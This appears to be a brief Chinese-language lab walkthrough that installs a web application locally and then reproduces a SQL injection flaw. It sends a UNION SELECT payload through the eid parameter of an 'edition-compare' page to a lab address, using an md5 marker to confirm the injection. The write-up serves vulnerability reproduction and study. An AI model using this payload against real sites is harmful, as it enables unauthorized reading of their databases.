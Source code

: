 
# 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)



## 攻击实战


使用hackbar插件在浏览器输入
```
http://192.168.1.170:7777/index.php?edition-compare-1
```

```
eid[0]=2&eid[1]=19&eid[2]=-3) UNION SELECT 1,2,35,4,5,6,7,8,9,10,11,12,md5(123),14,15,16,17,18,19 %23
```


![image]({path}/5.png)


